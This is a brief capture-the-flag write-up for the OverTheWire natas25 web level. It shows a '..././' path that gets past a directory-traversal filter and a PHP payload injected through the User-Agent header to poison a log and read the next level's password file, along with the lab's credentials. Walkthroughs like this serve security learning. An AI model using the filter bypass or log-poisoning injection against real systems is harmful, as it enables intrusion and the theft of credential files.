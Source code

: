 # [natas 25](http://natas25.natas.labs.overthewire.org)

    Username: natas25
    Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c

"../" will be replaced by "" to prevent directory traversal attempt and the path can not contain "natas_webpass", So we can not get the password directly. But we can use the path below to read the log file.

    http://natas25.natas.labs.overthewire.org/?lang=..././..././..././..././..././tmp/natas25_8jakhjo908l6s3c1m5p10ckca0.log

Now we want to write the password in the log file. The log records HTTP_USER_AGENT, So we can inject some codes in it.
Let's set HTTP_USER_AGENT to be the following:

    <?php echo file_get_contents('/etc/natas_webpass/natas26') ?>

Then let it write the password in log and read the log again to get the password.

    [07.09.2015 13::48:32] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal attempt! fixing request." 

